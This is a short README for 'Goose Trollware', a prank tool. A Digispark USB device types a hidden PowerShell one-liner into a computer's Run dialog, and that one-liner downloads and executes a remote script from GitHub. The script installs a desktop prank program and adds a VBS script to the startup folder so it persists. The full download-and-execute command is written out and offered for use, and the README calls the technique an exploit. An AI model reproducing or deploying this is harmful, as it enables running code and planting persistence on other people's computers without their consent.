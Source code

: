 # Goose Trollware
Goose program prank install wrapper for digispark. Keeping the link short for speed of exploit. 

See here for the original program https://desktop-goose.en.uptodown.com/windows

My code is intended to allow a digispart to plugin, quickly type the initial payload, and unplug while the code sets up the rest in the background.

The intent is to create a startup wrapper, placing it in the shell:startup folder. 

---

`i.ps1`: The install script run by the digispark

`run.vbs`: The vbs script copied to the autostartup folder.

---

To run, just have a digispark run `powershell -W H -Ex B -c "iex (iwr 'https://github.com/Reginald-Gillespie/G/raw/main/i.ps1').Content"` in the Run Dialogue. Later I may make the initial script rerun the main script as a hidden window.

Digispark code will be uploaded shortly.